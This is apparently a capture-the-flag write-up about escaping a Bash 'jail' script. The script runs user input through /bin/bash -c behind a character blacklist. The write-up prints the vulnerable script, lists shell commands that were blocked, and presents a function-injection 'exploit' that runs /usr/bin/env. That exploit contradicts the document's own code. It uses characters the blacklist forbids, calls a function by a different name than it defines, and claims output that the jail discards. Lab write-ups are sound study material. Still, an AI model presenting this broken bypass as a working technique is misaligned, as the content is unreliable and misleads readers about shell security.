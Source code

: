 # Bash Jail Escape — Blacklist Bypass via Function Injection

## 🔒 Jail Script (`jail.sh`)
```bash
#!/bin/bash
PATH=$(/usr/bin/getconf PATH || /bin/kill $$)

function check_input() {
    if [[ $1 == *[bdksiSctr'?''*''/''<''>''&''(''{''0''1''2''3''4''5''6''7''8''9']* ]]
    then
        return 0
    fi
    return 1
}

while :; do
    input=""
    echo -n "Enter the input: "
    read input
    if check_input "$input"
    then
        echo -e '\033[0;31mRestricted characters has been used\033[0m'
    else
        output=`/bin/bash -c "$input" &>/dev/null`
        echo "Command executed"
    fi
done
```

## ⚔️ Initial Analysis

The script enforces a blacklist of potentially dangerous characters including:

Critical Bash characters: b, d, k, s, i, S, c, t, r, ', ?, *, /, <, >, &, (, {

All digits 0-9

This prevents obvious shell commands like: ls /home cat /flag.txt echo $PATH

As well as indirect attempts like: echo "ls /home" | base64 eval $CMD $(ls)

All these were blocked with: Restricted characters has been used


## 🧪 Documented Attempts to Escape

Below are documented failed approaches (all blocked due to restricted characters or evaluated as inert):

🔸 Basic Commands:

``` ls whoami echo hello ```

🔸 Encodings & Piping:

``` echo "ls /home" | base64 printf "ls /home\n" | bash ```

🔸 Redirection & Variables:

``` ls /home > /tmp/output.txt cat /tmp/output.txt export CMD="ls /home" eval $CMD ```

🔸 Command Substitution:

``` $(ls) :; ls /home ```

🔸 Function Definitions (Blocked due to restricted chars like {, /, s):

``` function foo() { ls /home; } foo ```

## ✅ Successful Exploit

Despite the blacklist, Bash does not clear the environment or function definitions between inputs. So, a creative use of function injection worked:

### 💡 Step 1: Define a function using allowed characters

``` UNC_a%%=() {  /usr/bin/env; } ```

Valid Bash function name

Uses only whitelisted characters

/usr/bin/env was allowed and reveals the environment


### 💡 Step 2: Trigger the function

F

This executed the payload inside the function and printed the environment, which led to recovering the flag.

🎯 Conclusion

Bypassed the blacklist using environment persistence and safe Bash syntax

Lesson: Blacklists are not security. They are duct tape over a broken vault.


## 📚 Key Takeaways

Bash environments persist between inputs unless explicitly reset.

Function names can be bizarre yet valid (UNC_a%%).

Even a seemingly robust character filter is susceptible to logic-layer abuses.

Commands like env can leak massive information even when ls, cat, etc. are restricted.


📌 Pro tip: In CTFs and real systems alike, don't just attack the walls — attack the logic.
